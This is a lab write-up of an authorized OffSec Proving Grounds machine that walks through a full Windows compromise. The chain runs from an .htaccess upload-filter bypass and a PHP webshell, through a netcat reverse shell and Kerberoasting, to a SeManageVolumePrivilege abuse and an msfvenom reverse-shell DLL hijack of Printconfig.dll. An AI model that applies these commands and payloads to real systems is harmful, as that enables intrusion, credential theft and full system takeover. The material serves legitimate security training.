# Access

**Category:** Active Directory, File Upload, SeManageVolumePrivilege

## Attack Chain

1. A "Buy Tickets" web app (port 80) has a file upload feature that blocks `.php` and other obvious extensions
2. `dirsearch` finds `/uploads`, the upload target directory
3. An extension blacklist bypass is used: a `.htaccess` file is uploaded first, mapping a custom extension (e.g. `.cybersec`) to the PHP MIME type
4. A PHP webshell is then uploaded with that custom extension, bypassing the filter entirely
5. Visiting the uploaded shell gives code execution; `nc.exe` is uploaded and triggered for a full interactive reverse shell
6. WinPEAS finds nothing directly useful; Rubeus kerberoasts `svc_mssql`, whose hash is cracked with Hashcat
7. `Invoke-RunasCs.ps1` uses the cracked credential to run commands as `svc_mssql`
8. `svc_mssql` holds `SeManageVolumePrivilege`; `SeManageVolumeExploit.exe` grants full permissions on `C:\` to all users
9. A malicious `Printconfig.dll` (built with `msfvenom`) replaces the legitimate print spooler driver DLL
10. Instantiating the corresponding COM object from PowerShell triggers the DLL and returns a SYSTEM shell

## TL;DR

A ticket-purchasing web app allowed file uploads but blocked obvious dangerous extensions like `.php`. The bypass was a classic Apache trick: uploading a `.htaccess` file first that mapped an arbitrary custom extension to the PHP MIME type, then uploading the actual webshell using that custom extension instead of `.php`, sailing straight past the filter. That got code execution, upgraded to a full reverse shell via a transferred `nc.exe`. WinPEAS didn't turn up much, but Rubeus kerberoasted a service account, `svc_mssql`, whose hash cracked with Hashcat and gave that account's context via `Invoke-RunasCs.ps1`. `svc_mssql` held `SeManageVolumePrivilege`, abused with a public exploit to grant every user full permissions on `C:\`. With that in hand, the print spooler's `Printconfig.dll` was replaced with a malicious `msfvenom` payload, and instantiating the corresponding COM object from PowerShell loaded it, returning a SYSTEM-level shell.

## Full Walkthrough

### Enumeration

Nmap reveals port 80 among others, confirming this is a Windows domain environment. Port 80 hosts a Tickets website with a file upload feature under "Buy Tickets."

Trying to upload `shell.php` directly: extension not allowed. Trying various modified extensions: nothing works either. Running `dirsearch` finds `/uploads`, the directory uploaded files land in.

### Extension Blacklist Bypass

Following [this technique for bypassing extension blacklists via `.htaccess`](https://www.cyberseccafe.com/p/web-shell-upload-via-extension-blacklist), using [this PHP webshell](https://gist.github.com/mrpapercut/9e4f511e74fdf3796d0abcc4de182b65) as the payload.

**Step 1: uploading a `.htaccess` file.** Intercepting the upload request in Burp: renaming the file to `.htaccess`, setting its content to `AddType application/x-httpd-php .cybersec` (mapping the custom extension `.cybersec` to PHP's executable MIME type), and setting `Content-Type` to `text/plain`:





The `.htaccess` file uploads successfully.

**Step 2: uploading the webshell.** Intercepting the upload of `shell.php` and changing its extension to `.cybersec`:





Uploaded successfully.

### Initial Access

Visiting `/uploads/shell.cybersec` triggers the webshell, giving initial code execution. Through it, uploading `nc.exe`, starting a listener, and running:

```
nc.exe <ip> <port> -e cmd
```

A full interactive reverse shell follows.

### Enumeration







WinPEASx64 doesn't turn up anything directly useful.

### Privilege Escalation

**Kerberoasting:** creating a `/Temp` directory, transferring Rubeus, and kerberoasting:



`svc_mssql` is kerberoastable. Cracking the hash with Hashcat:



Password recovered.

**Escalating horizontally** to `svc_mssql` with [Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1), a PowerShell script that executes commands or spawns a session under another user's context:







### Exploiting SeManageVolumePrivilege for SYSTEM

Reference: [SeManageVolumePrivilege writeup](https://oscp.adot8.com/windows-privilege-escalation/whoami-priv/semanagevolumeprivilege). This privilege can be abused to grant full permissions on `C:\` to every user on the machine, using [SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public).

**Step 1: grant full permissions to all users over `C:\`:**

```
.\SeManageVolumeExploit.exe
```

**Step 2: create a malicious payload named `Printconfig.dll`** and set up a listener:

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.233 LPORT=1339 -f dll -o Printconfig.dll
```

**Step 3: replace the legitimate print spooler driver DLL:**

```
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```

**Step 4: switch to PowerShell and instantiate the corresponding COM object** to trigger the DLL load:

```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```



Full system compromise.

---

*Educational write-up from an authorized lab environment (OffSec Proving Grounds). Not a guide for unauthorized access.*
